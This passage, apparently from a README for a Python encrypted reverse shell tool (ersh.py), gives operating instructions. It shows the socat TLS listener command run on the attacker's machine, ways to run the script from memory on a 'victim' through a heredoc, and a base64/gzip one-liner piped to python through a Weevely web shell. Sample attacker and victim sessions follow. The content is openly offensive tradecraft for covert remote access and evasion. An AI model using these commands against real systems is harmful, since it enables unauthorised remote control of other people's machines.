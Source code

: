 ```

That's it, no more editing required.

### Setting up the listener

Considering that a full TLS negociation is going to proceed, a traditional ```nc``` listener
will not suffice here. ```socat``` has been chosen for this task, due to its ability to
handle encryption and TTYs. On Debian-based distributions, you should be able to obtain
it by simply running ```sudo apt-get install socat```.

Assuming you're still in the folder where you generated the keys and certificates, and
you want to listen on port 443, here is the command line you should run on the
machine where the reverse shell will arrive:

```
socat openssl-listen:443,reuseaddr,cert=server.pem,cafile=client.crt,method=TLS1 file:`tty`,raw,echo=0
```

### Running from memory

You don't need to copy the script to the remote machine for it to work. Here is a simple way to run it
from a non-interactive shell. Copy the whole script to your clipboard and run the following commands on
the victim:

```
python - <<'EOF'
[paste script contents here]
'EOF'
```

If you're trying to launch ```ersh.py``` from an environment which doesn't support multiple lines (such
as Weevely), you can also try generating a one-liner like this:

```
root@attacker:~/freedomfighting# gzip -c ersh.py | base64
H4sICPMsblkAA2UucHkA1Vp5k6O4kv+fT8FUx8RULdU2PsB27asXCxh8Ajbgs2eiHocwmNMcxvjT
r4Rdd0/PvNiZjV0iqgxSKpXK45cpxJef6nma1A03rMdl5kQhdnNzg4EkdWpxiRsl/l/jPM1cEyj6
[...]

weevely> echo "H4sICPMsblkAA2..." | base64 -d | gunzip | python
```

### Sample output

On the receiver machine:

```
root@attacker:~/freedomfighting# socat openssl-listen:8080,reuseaddr,cert=server.pem,cafile=client.crt,method=TLS1 file:`tty`,raw,echo=0
```

On the victim:

```
root@victim:~# python ersh.py
[*] Connection established!
root@victim:~#
```

And on the receiver again:

```